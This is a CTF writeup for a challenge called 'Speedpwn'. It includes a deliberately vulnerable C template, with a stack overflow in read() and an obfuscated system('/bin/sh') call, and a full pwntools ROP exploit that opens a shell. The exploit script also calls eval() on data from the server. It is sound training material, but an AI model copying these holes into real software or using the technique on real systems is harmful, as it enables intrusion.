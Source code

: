 # Description(s) 
- Challenge name: Speedpwn
- Proposed difficulty: Hard
- Challenge description:

    Stop doing stuff manually,
    race sonic and get a shell!

    `nc speedpwn.hkn 1024`


# Writeup

The challenge will compile a unique binary and send it to the user.
The user then has 4 seconds to make an exploit, and exploit the server.

The following template is used:
```
#include <stdio.h>
#include <memory.h>
#include <ctype.h>
#include <stdlib.h>
#include <unistd.h>
#include <signal.h>


char *sanc = "          .,\n\
.      _,'f----.._\n\
|\ ,-'\"/  |     ,'\n\
|,_  ,--.      /\n\
/,-. ,'`.     (_\n\
f  o|  o|__     \"`-.\n\
,-._.,--'_ `.   _.,-`\n\
`\"' ___.,'` j,-'\n\
  `-.__.,--'\n\
";

__rd_funcs__

char cp = 0;

void ring1() {
    cp ^= 1;
}

void ring2() {
    cp ^= 2;
}

void ring3() {
    cp ^= 4;
}

void finish(int signum){
 
  puts("Too slow, cya!");
  exit(-1);
}
 

void win() {
    char bs[] = "(eni(to";
    for (char c = 0; c < strlen(bs); c++) {
        bs[c] ^= cp;
    }
    system(bs);
}

void vulnerable() {
    
    char b[__buf_sz__];
    read(0, b, __buf_rd__);
    return;
}


int main(int argc, char **argv) {
    puts(sanc);
    puts("Nothing personal kid...");
    setvbuf(stdout, NULL, _IONBF, 0);
	setvbuf(stdin, NULL, _IONBF, 0);
	setvbuf(stderr, NULL, _IONBF, 0);
    signal(SIGALRM, finish);
    alarm(4);
    vulnerable();
}

```
Here we can see that the varying factors are the buffer size being read into, as well as the number of chars being read.
Another randomization factor is a number of dummy functions at `__rd_funcs__`.

The fact that these are the varying factors should be inferrable by the user after downloading a few binaries.

In order to exploit the binary, the user needs to call `ring1`, `ring2`, `ring3` in any order and finally `win` this is done using return oriented programming.

By reading the file from the server and using an ELF parsing library we can get the addresses of the four functions. 
```
exploit += p64(p.symbols["ring1"])
exploit += p64(p.symbols["ring2"])
exploit += p64(p.symbols["ring3"])
exploit += p64(p.symbols["win"])
```

We line these up in a ROP chain.
Now the padding in front (the buffer size) needs to be determined.
The lazy solution is by parsing the disassembly of the `vulnerable` function and extracting the stack setup.
This looks like `sub rsp, x` where x is the stack size.
`sz = int(p.disasm(p.symbols["vulnerable"], 20).split("sub    rsp, ")[1].split('\n')[0], 16)+8`
We add 8 to override RBP and hit the return address.

Finally the solution looks like 
```
from pwn import *

r = remote("localhost", 1024)

bin = eval(r.recvline()[:-4])
open("./out", "wb").write(bin)

p = ELF("./out")

sz = int(p.disasm(p.symbols["vulnerable"], 20).split("sub    rsp, ")[1].split('\n')[0], 16)+8

log.info(f"Guessing padding size to {sz}")

padding = sz
exploit = b"A"*padding
exploit += p64(p.symbols["ring1"])
exploit += p64(p.symbols["ring2"])
exploit += p64(p.symbols["ring3"])
exploit += p64(p.symbols["win"])

open("exploit", "wb").write(exploit)

r.sendline(exploit)
r.sendline("cat flag")
r.interactive()
```
